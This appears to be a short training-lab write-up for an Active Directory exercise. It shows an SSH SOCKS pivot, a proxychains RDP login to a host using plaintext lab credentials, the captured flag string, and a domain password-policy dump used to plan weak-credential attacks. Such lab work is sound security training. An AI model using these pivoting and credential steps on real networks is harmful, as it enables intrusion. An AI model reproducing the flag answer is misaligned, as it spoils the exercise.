 **Submit the contents of the C:\flag.txt file on MS01.**

* 172.16.7.50 -> MS01.INLANEFREIGHT.LOCAL
  * SMB -> no read write access
  * RDP
    * add port `9050` to proxychains config file
    * `ssh -D 9050 htb_student@<IP>`
    * `proxychains xfreerdp /v:172.16.7.50 /u:ab920 /p:weasal /drive:linux,/home/kali/Desktop/htb_academy/active_directory`
    * ![](<../../../.gitbook/assets/image (15) (1).png>)aud1t\_gr0up\_m3mbersh1ps!

**Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain**.

Checked domain password policy and got

```
Unicode        : @{Unicode=yes}
SystemAccess   : @{MinimumPasswordAge=0; MaximumPasswordAge=42; MinimumPasswordLength=1; PasswordComplexity=0;
                 PasswordHistorySize=0; LockoutBadCount=0; RequireLogonToChangePassword=0;
                 ForceLogoffWhenHourExpire=0; ClearTextPassword=0; LSAAnonymousNameLookup=0}
KerberosPolicy : @{MaxTicketAge=10; MaxRenewAge=7; MaxServiceAge=600; MaxClockSkew=5; TicketValidateClient=1}
Version        : @{signature="$CHICAGO$"; Revision=1}
RegistryValues : @{MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=System.Object[]}
Path           : \\INLANEFREIGHT.LOCAL\sysvol\INLANEFREIGHT.LOCAL\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHI
                 NE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
GPOName        : {31B2F340-016D-11D2-945F-00C04FB984F9}
GPODisplayName : Default Domain Policy
```
